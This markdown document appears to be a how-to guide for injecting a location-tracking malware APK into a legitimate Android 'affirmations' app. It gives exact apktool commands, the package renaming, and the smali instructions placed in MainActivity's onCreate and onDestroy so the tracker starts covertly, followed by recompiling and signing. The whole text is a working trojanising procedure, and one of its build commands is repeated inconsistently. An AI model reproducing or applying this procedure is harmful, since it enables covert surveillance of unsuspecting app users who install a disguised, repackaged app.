










INJECT MALWARE INTO THE AFFIRMATIONS.APK

1. (optional, but recommended if possible) change the root package name of your malware, to the root package name of the apk where you want to inject your malware. Otherwise will need to change them all manually in the files later.

(here root package name changed)

2. Decompile the malware.apk and the affirmations.apk. 
   - apktool d affirmations_OG.apk -o affirmations
   - apktool d locationtrackerMAL.apk -o locationMalware

3. Look for the files that define the LocationTracker class in the locationMalware folder. Copy all the files with "locationTracker" in the name.

4. Look for the MainActivity file in the affirmations folder. In that folder will past all the copied files from step 3.

5. If step 1 not done, then change all the package names so they have the same name as the package name of the affirmations.apk

all the package names will need to be change to Lcom/example/affirmations/... a lot of work for all the files if done manually

6. Make affirmations folder compilable. Search in the folder for "$" symbols in the names of the files.

7. For all the renamed files, there are references inside other files with that name. Those references will also need to be changed. Use grep to search the files, always give part of the filename. $ is also used correctly in a lot of files.

   - grep -r '\$ic_' , run again we want to see nothing. 
    We can always check if done correctly by trying to recompile affirmations, it should work.
   - apktool b affirmations -o affirmationsRC.apk

8. Start looking where to injecting the malware. We have to start by looking inside the MainActivity of affirmations. We look for the *onCreate(Landroid/os/Bundle;)V* in the file.

 
We see *invoke-super {p0, p1}, Landroidx/activity/ComponentActivity;->onCreate(Landroid/os/Bundle;)V* this will start the super.onCreate(...) of the main. We want to inject the code after this line.

9. Now can inject the malware.

   - First need to create a new instance of the LocationTracker class: *new-instance v0, Lcom/example/affirmations/LocationTracker;*
   - Call the constructor of the class: *invoke-direct {v0}, Lcom/example/affirmations/LocationTracker;-><init>()V*
   - Assign initialized object to instance field: *iput-object v0, p0, Lcom/example/affirmations/MainActivity;->location:Lcom/example/affirmations/LocationTracker;* (java equivalent, this.location = new LocationTracker();)

   - Retrieve the object field: *iget-object v0, p0, Lcom/example/affirmations/MainActivity;->location:Lcom/example/affirmations/LocationTracker;*
   - Call the init method for LocationTracker: *invoke-virtual {v0, p0}, Lcom/example/affirmations/LocationTracker;->init(Landroidx/activity/ComponentActivity;)V* (java equivalent, this.location.init(this);)
Now the malware will be started and be running.

10. To make sure the malware will stop correctly also add a stop function. Will also implement this. 

    - First look if there is an *onDestroy()V* in the MainActivity. if there isn't will make one. (Here it is missing so will make it)
    - Declares a method named onDestroy: *.method protected onDestroy()V*
    - Declare local variables (v0): *.locals 1*
    - Retrieve the location field from this: *iget-object v0, p0, Lcom/example/affirmations/MainActivity;->location:Lcom/example/affirmations/LocationTracker;*
    - Call the stop() method form LocationTracker on v0 *invoke-virtual {v0}, Lcom/example/affirmations/LocationTracker;->stop()V*
    - Call the parent class's o,Destroy() method: *invoke-super {p0}, Landroidx/activity/ComponentActivity;->onDestroy()V*
    - Return from the method: *return-void*

11. Need to add the parameter location, so it can be accessed again. Add beneath the (annotations) static fields:
    \# instance fields
    *.field private location:Lcom/example/affirmations/LocationTracker*

12. The malware is now injected. Can start the recompile process.

Recompile the edited affirmations folder.
    - apktool b affirmations -o RCaffirmations.apk
Align the structure of the RCaffirmations.apk.
    - apktool b affirmations -o affirmationsRC.apk
Need to sign the new apk so it can be used (need to have key made already).
    - apksigner sign --ks ~/Bureaublad/debug.store RCaffirmations.apk.

Now the new apk is ready to be used.